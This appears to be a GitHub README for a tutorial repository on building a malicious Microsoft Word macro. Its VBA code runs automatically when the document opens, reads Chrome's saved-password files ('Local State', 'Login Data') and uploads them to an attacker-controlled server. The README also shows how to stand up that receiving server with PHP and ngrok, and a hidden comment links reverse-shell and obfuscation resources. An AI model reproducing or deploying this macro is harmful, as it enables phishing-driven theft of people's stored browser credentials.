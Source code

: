 # The word is yours





<div align=center>
<img src=https://github.com/ariary/WordTrojan/blob/main/img/logo.png width=180>
<br><strong><i>Malicious macro for the dummies<sup>*</sup></i></strong>
<br><sup>* In fact it is for me</sup> 

  🔫 <strong>•</strong> 🥷 <strong>•</strong> 🫖
</div> 


## Context

It is well-known that macro is a great vector of attack to execute malicious code on victim device. The approach is basically to make the victim open an MS document which will run code using Macro.

Macro are written in VBA which is a precompiled language (⇒ easy to reverse.. argh).

We suppose the victim is using Windows.

### What we want to do?

To discover a bit the macro world. Our aim is to steal credentials stored in the Chrome password manager. The scenario is the following:
* Transfer malicious word document to victim *(out-of-scope: use social-engineering,phishing, ..)*
* Encourage them to open it + enable macro
  * The macro will retrieve the files containing credentials, then send them to C2 server
* On C2 server we will decrypt the credentials

## 🔫 Naive approach

- [Retrieve sensitive files and send it from word](#retrieve-sensitive-files-and-send-it-from-word)
- [Receive files on Attacker side](#receive-files-on-attacker-side)
- [Let's Contemplate the explosion](#lets-contemplate-the-explosion)
- [Caveat](#caveat)

> 💡 **Create Macro**: in your word document *View* > Macros > view macros > Edit

### Retrieve sensitive files and send it from word

The macro payload reads the differents files containing Chrome passwords and send them to C2 server. Translate it in VBA:
```VBA
Private Function pvPostFile(sUrl As String, sFileName As String, Optional ByVal bAsync As Boolean) As String
    Const STR_BOUNDARY  As String = "3fbd04f5-b1ed-4060-99b9-fca7ff59c113"
    Dim nFile           As Integer
    Dim baBuffer()      As Byte
    Dim sPostData       As String
 
    '--- read file
    nFile = FreeFile
    Open sFileName For Binary Access Read As nFile
    If LOF(nFile) > 0 Then
        ReDim baBuffer(0 To LOF(nFile) - 1) As Byte
        Get nFile, , baBuffer
        sPostData = StrConv(baBuffer, vbUnicode)
    End If
    Close nFile
    '--- prepare body
    sPostData = "--" & STR_BOUNDARY & vbCrLf & _
        "Content-Disposition: form-data; name=""uploadfile""; filename=""" & Mid$(sFileName, InStrRev(sFileName, "\") + 1) & """" & vbCrLf & _
        "Content-Type: application/octet-stream" & vbCrLf & vbCrLf & _
        sPostData & vbCrLf & _
        "--" & STR_BOUNDARY & "--"
    '--- post
    With CreateObject("Microsoft.XMLHTTP")
        .Open "POST", sUrl, bAsync
        .SetRequestHeader "Content-Type", "multipart/form-data; boundary=" & STR_BOUNDARY
        .Send pvToByteArray(sPostData)
        If Not bAsync Then
            pvPostFile = .ResponseText
        End If
    End With
End Function
 
Private Function pvToByteArray(sText As String) As Byte()
    pvToByteArray = StrConv(sText, vbFromUnicode)
End Function
```
(from [wqweto](https://wqweto.wordpress.com/2011/07/12/vb6-using-wininet-to-post-binary-file/))

Now call this function to send the files we want:
```VBA
Private Sub Malware()
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Local State"
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Default\Login Data"
End Sub

Private Sub Launch()
    Malware
End Sub

Sub AutoOpen()
    ' Becomes launched as first on MS Word
    Launch
End Sub

Sub Document_Open()
    ' Becomes launched as second, another try, on MS Word
    Launch
End Sub
```
`Document_Open` and `AutoOpen` are special functions which are automatically executed when the word document is open.

### Receive files on Attacker side

[`php/upload.php`](https://github.com/ariary/TheWordIsYours/blob/main/php/upload.php) is the php file in charge of receiving uploaded file (with `multipart/form-data`).

Launch the server (from here) and expose it (with `ngrok`, for test purpose only):
```shell
php -S localhost:8080 -t php

#On another tab
ngrok http 8080
```
Let's copy your ngrok https endpoint and replace `[ATTACKER_URL]` in the macro

### Let's Contemplate the explosion

Now open the word document (on a windows machine please) and **bang**, see that it has discreetly exfiltrated the documents on your attacking machine.

Now that we have what we want, proceed to password decryption on attacker machine (which is the coolest part)

*.. to do*

### Caveat

* Our macro payload lets a lot of information through that will allow a blue team to trace you easily as well as defend themselves
* Target must enable macros to trigger the payload *(sometimes it is by default sometimes not, don't ask me)*

## 🥷 On the road to stealth
*.. to do*
### Encrypt payload
### Hide keys
### Encourage target to enable macros

<!--Example of revershell macro in word document

See https://vunnm.files.wordpress.com/2018/09/article_macro_reverse_shell.pdf

And https://www.thedecentshub.tech/2021/08/reverse-shell-from-word-documents.html

Obfuscation: https://connect.ed-diamond.com/MISC/misc-087/automatisation-d-une-obfuscation-de-code-vba-avec-vbad

For macro useful tool: https://github.com/CaledoniaProject/awesome-opensource-security/blob/master/office-tools.md
1. Create macro (reverseshell + social engineering)
2. Force victime to click on enable content
3. Get reverse shell

Faire aussi un payload qui récupère les mdp enregistrés par chrome ou Firefox -->
